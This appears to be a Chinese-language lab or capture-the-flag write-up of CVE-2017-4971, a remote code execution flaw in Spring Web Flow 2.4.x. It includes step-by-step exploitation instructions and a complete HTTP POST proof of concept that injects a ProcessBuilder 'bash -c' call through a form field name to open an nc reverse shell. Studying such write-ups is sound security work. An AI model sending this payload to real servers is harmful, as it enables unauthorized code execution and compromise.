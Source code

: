 # [Spring WebFlow 远程代码执行漏洞（CVE-2017-4971）by ]()[xiajibaxie](https://github.com/xiajibaxie)

## [一，漏洞描述]()

 Spring Web Flow 在 Model 的数据绑定由于没有明确指定相关 model 的具体属性导致从表单可以提交恶意的表达式从而被执行，导致任意代码执行的漏洞。

## [二，影响版本]()

Spring Web Flow 2.4.0 – 2.4.4

## [三，利用流程]()

1选择左侧用户名登陆

 ![1](./1.jpg)

2访问路径 `/hotels/1` 点击 `Book Hotel` 

![2](./2.jpg)

 3填写相应信息后点击 `Proceed` 

![3](./3.jpg)

4点击 `Confirm` 抓包

![4](./4.jpg)

5将 nc 的反弹 shell 转换成 url 编码

![5](./5.jpg)

6.发送 poc 反弹 shell 获得 flag 

```
POST /hotels/booking?execution=e2s2 HTTP/1.1
Host: 10.10.11.20:43156
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:49.0) Gecko/20100101 Firefox/49.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
Referer: http://10.10.11.20:43156/hotels/booking?execution=e2s2
Cookie: JSESSIONID=62C4972DBE024CCE5D86154E13B17537
DNT: 1
X-Forwarded-For: 8.8.8.8
Connection: close
Upgrade-Insecure-Requests: 1
Content-Type: application/x-www-form-urlencoded
Content-Length: 255

_eventId_confirm=&_csrf=13d9614f-d52c-4a5c-be7c-49b1947225a9&_(new java.lang.ProcessBuilder("bash","-c","url转码poc")).start()=vulhub
```

![6](./6.jpg)



## [参考]()

https://www.jianshu.com/p/ad391cb9a95b

https://paper.seebug.org/322/
